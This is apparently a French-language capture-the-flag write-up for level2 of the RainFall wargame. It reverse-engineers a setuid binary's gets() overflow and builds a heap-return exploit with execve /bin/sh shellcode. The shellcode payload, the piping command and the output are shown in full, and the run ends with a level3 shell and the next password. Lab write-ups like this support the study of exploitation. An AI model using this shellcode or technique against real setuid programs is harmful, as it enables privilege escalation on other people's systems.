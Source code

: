 # Level2
```
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
````
executable présent dans le repertoire qui ecris sur la sortie standart le prompt ouvert a l'execution. Passons le programme a gdb.
```
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

La fonction p declarée dans le main possède la logique.
On voit qu'il y a une fonction gets, non sécurisée car un tableau de 76 char est alloué.

```
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];

  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

L'étude du retro-ingieniering dans ghidra nous informe d'une condition apres le gets. Cette condition compare le bit de poids fort de l'adresse de retour de la fonction gets, si l'adresse commence par "0xb" le programme s'arrete.
Nous ne pouvons donc pas reutiliser la methode utilisée au niveau inferieur car le buffer situé sur la stack aura son addresse qui commence par "0xb".

```
Breakpoint 2 at 0x80484f2
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x080484f2 in p ()
(gdb) x/100x $esp
0xbffff6c0:	0xbffff6dc	0x00000000	0x00000000	0xb7e5ec73
0xbffff6d0:	0x080482b5	0xbffff7d4	0xbffff8fc	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x41414141	0x41414141
```

On constate que si on ne fais pas de buffer overflow, le programme passe au puts et strdup. Car l'adresse de retour de la fonction n'est pas écrasée
("0x08048550")

Nous voyons que le tableau est alloué sur le tas avec strdup.

L'exploit va consister a faire executer notre shellcode sur le tas au lieu de la stack.
Grace a un breakpoint apres strdup nous trouvons une addresse ou nous pourrons rediriger le shellcode.

```
(gdb) x/100x $eax-100
0x8049fa4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fb4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fc4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fd4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fe4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049ff4:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a004:	0x00000051	0x41414141	0x41414141	0x41414141
0x804a014:	0x41414141	0x41414141	0x41414141	0x41414141
```

```
level2@RainFall:~$ python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(79-40-23) + "\x14\xa0\x04\x08"' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | /home/user/level2/level2
????????????????????????????????????????1?Ph//shh/bin??1ɉ?j
                                                           X̀AAAAAAAAAAAA?
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```